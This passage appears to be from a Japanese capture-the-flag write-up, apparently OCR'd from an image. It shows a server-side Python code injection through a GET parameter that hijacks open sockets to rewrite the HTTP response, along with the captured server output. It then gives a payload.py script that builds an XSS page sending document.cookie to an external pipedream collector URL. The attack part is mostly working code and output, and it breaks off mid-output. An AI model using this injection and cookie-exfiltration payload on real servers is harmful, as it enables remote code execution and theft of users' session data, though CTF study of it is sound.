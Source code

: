 ```bash
> GET /?code=import+socket%0D%0Afor+fd+in+range%28100%29%3A%0D%0A++++try%3A%0D%0A++++++++sock+%3D+socket.fromfd%28fd%2C+socket.AF_INET%2C+socket.SOCK_STREAM%29%0D%0A++++++++sock.sendall%28b%27%27%27HTTP%2F1.1+200+OK%0D%0AContent-Length%3A+6%0D%0AContent-Type%3A+text%2Fhtml%0D%0AConnection%3A+Closed%0D%0A%0D%0ASatoki%27%27%27%29%0D%0A++++except+Exception+as+e%3A%0D%0A++++++++pass HTTP/1.1
> Host: 118.27.109.12:31416
> User-Agent: curl/7.81.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.25.3
< Date: Sat, 09 Dec 2023 00:00:00 GMT
< Content-Type: text/html
< Content-Length: 6
< Connection: close
<
* Closing connection 0
Satoki
```
無事に応答を書き換えることができた。  
あとは適切なレスポンスヘッダーを設定し、XSSしてフラグを外部サーバに送信してやればよい。  
以下のpayload.pyでXSSペイロードの作成を行う。  
```python
# This script is inspired by potetisensei

URL = "https://en9i5fcxybxwa.x.pipedream.net/" # Your server

payload = f"""
<!DOCTYPE html>
<html lang="en">
    <head></head>
    <body>
    <script>location.href='{URL}?s='+document.cookie</script>
    </body>
</html>
"""

print(
    f"""
import socket
for fd in range(100):
    try:
        sock = socket.fromfd(fd, socket.AF_INET, socket.SOCK_STREAM)
        sock.sendall(b'''HTTP/1.1 200 OK
Server: Tsukushi/2.94
Content-Length: {len(payload)}
Content-Type: text/html
Connection: Closed

{payload}''')
    except Exception as e:
        pass
"""
)
```
実行する。  
```bash
$ python payload.py

import socket
for fd in range(100):
    try:
        sock = socket.fromfd(fd, socket.AF_INET, socket.SOCK_STREAM)
        sock.sendall(b'''HTTP/1.1 200 OK
```
